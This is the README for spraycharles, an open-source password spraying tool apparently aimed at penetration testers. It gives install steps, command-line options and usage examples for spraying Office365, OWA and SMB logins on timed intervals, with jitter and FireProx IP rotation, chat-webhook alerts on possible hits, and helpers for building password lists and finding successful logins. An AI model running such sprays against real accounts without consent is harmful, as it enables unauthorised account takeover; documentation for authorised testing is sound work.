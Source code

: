 spraycharles
======
## Overview ##
Low and slow password spraying tool, designed to spray on an interval over a long period of time.


## Install ##

#### Using pipenv
```bash
git clone https://github.com/Tw1sm/spraycharles.git && cd spraycharles
pipenv --python 3 shell
pip3 install -r requirements.txt
./spraycharles.py -h
```


#### Using Docker
Build the container using the included Dockerfile.

```bash
git clone https://github.com/Tw1sm/spraycharles.git && cd spraycharles
docker build . -t spraycharles
```

You will most likely want to save and use a list of usernames and passwords during spraying. The easiest way to do this is by mapping a directory on your host with the container. Use the following command in Bash to map your present working directory to the spraycharles install directory inside the running container.

```bash
docker run -it -v $(pwd):/spraycharles/ spraycharles -h
```

Following your first run of the command above, a sparycharles directory will be created on your system where you can add username and password lists as well as access spraying logs. 

#### From GitHub
```bash
$ git clone https://github.com/Tw1sm/spraycharles.git
$ cd spraycharles
$ pip3 install -r requirements.txt
$ ./spraycharles.py -h
```

<br/>

## Usage ##
```
Usage: spraycharles.py [OPTIONS]

  Low and slow password spraying tool...

Options:
  -p, --passwords TEXT            Filepath of the passwords list or a single
                                  password to spray.  [required]
  -u, --usernames TEXT            Filepath of the usernames list.  [required]
  -H, --host TEXT                 Host to password spray (ip or hostname). Can
                                  by anything when using Office365 module -
                                  only used for logfile name.
  -m, --module TEXT               Module corresponding to target host.
                                  [required]
  --path TEXT                     NTLM authentication endpoint. Ex: rpc or ews
  -o, --output TEXT               Name and path of output csv where attempts
                                  will be logged.
  -a, --attempts INTEGER          Number of logins submissions per interval
                                  (for each user).
  -i, --interval INTEGER          Minutes inbetween login intervals.
  -e, --equal INTEGER             Does 1 spray for each user where password =
                                  username.
  -t, --timeout INTEGER           Web request timeout threshold. Default is 5
                                  seconds.
  -P, --port INTEGER              Port to connect to on the specified host.
                                  Default is 443.
  -f, --fireprox TEXT             The url of the fireprox interface, if you
                                  are using fireprox.
  -d, --domain TEXT               HTTP: Prepend DOMAIN\ to usernames. SMB:
                                  Supply domain for smb connection.
  --analyze                       Run the results analyzer after each spray
                                  interval. False positives are more likely
  --pause                         Pause the spray following a potentially
                                  successful login
  -j, --jitter INTEGER            Jitter time between requests in seconds.
  -jm, --jitter-min INTEGER       Minimum time between requests in seconds.
  -n, --notify [teams|slack|discord]
                                  Enable notifications for Slack, MS Teams or
                                  Discord.
  -w, --webhook TEXT              Webhook used for specified notification
                                  module
  --config FILE                   Read configuration from FILE.
  -h, --help                      Show this message and exit.
```

#### Config File 
It is possible to pre-populate command line arguments form a configuration file using the --config argument.

An example configuration file is listed below:

```
userlist = '/tmp/users.txt'
passlist = '/tmp/passwords.txt'
csvfile = 'mail.acme.com.csv'
module = 'owa'
host = 'mail.acme.com'
domain = 'ACME'
analyze = 'True'
attempts = '1'
interval = '30'
timeout = '25'
```

Note: Due to internal script logic the following variables must be defined differently than they would be via CLI:

* usernames = userlist
* passwords = passlist
* output = csvfile

<br/>


### Notifications ###
Spraycharles has the ability to issue notifications to Discord, Slack and Microsoft Teams following a potentially successful login attempt. This list of notification providers can augmented using the utils/notify.py script. For any of the potential notification agents, you must specify its name and a webhook URL. 

It is best to specify this information using the configuration file to keep your command shorter:

```
notify = 'slack'
webhook = 'https://hooks.slack.com/services/T00000000/B00000000/XXXXXXXXXXXXXXXXXXXXXXXX'
```

Notifications sent to any of the providers will include the targeted hostname associated with the spraying job. This is expecially useful when spraying multiple targets at once using spraycharles. Note that unless you specify the --pause flag on execution, a notification will be issued following every spray iteration. 

<br/>

### Examples ###
Basic usage (Office365)
```
./spraycharles.py -u users.txt -p passwords.txt -m Office365
```
Basic usage (non-Office365) with a single password, supplied via command line
```
./spraycharles.py -u users.txt -H webmail.company.com -p Password123 -m owa
```
Attempt 5 logins per user every 20 minutes
```
./spraycharles.py -n users.txt -H webmail.company.com -p passwords.txt -i 20 -a 5 -m owa
```
Usage with fireprox (Office365)
```
./spraycharles.py -u users.txt -p passwords.txt -m office365 -f abcdefg.execute-api.us-east-1.amazonawms.com
```
Spray host over SMB with 2 attempts per user every hour
```
./spraycharles.py -u users.txt -p passwords.txt -m Smb -H 10.10.1.5 -a 2 -i 60
```

<br/>

## Utilities ##
Spraycharles is packaged with some additional utilities to assist with spraying efforts.
<br/>

#### Generating Custom Spray Lists 
make_list.py will generate a password list based off the specifications provided in list_elements.json
```
./utils/make_list.py
```

<br/>

#### Extracting Domain from NTLM over HTTP and SMB 
ntlm_challenger.py will extract the internal domain from both NTLM over HTTP and SMB services using a command similar to the one listed below.


```
./utils/ntlm_challenger.py https://mail.acme.com/ews
```

<br/>

### Analyzing the results CSV file ###
`analyze.py` can read your output CSV and determine response lengths that are statistically relevant. With enough data, it should be able to pull successful logins out of your CSV file. This is not the only way to determine successful logins, depending on your target site, and I would still recommend checking the data yourself to be sure nothing is missed. For SMB, it will simply find entries that contain "SUCCESS"
```
./analyze.py myresults.csv
```

<br/>

## Disclaimer ##
This tool is designed for use during penetration testing; usage of this tool for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse of this program.
